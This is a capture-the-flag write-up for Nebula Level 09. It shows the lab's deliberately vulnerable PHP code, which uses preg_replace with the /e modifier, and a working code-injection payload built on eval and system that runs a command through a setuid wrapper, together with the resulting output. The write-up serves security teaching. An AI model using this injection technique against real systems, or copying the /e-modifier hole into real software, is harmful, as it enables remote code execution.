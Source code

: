 # Nebula - Level 09

### About ###

>There’s a C setuid wrapper for some vulnerable PHP code…
>
>To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09.

### Source code ###

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

### Solution ###

The `/e` in `preg_replace` allows users to execute PHP code passed in the second argument.

The exploitation is pretty straightforward by using a file containing a string formatted as follow.

```
[email {${eval(system(`getflag>/tmp/flag09`))}}]
```

`getflag` can now be executed.

```
level09@nebula:/home/flag09$ ./flag09 /tmp/email
level09@nebula:/home/flag09$ cat /tmp/flag_09
You have successfully executed getflag on a target account
```

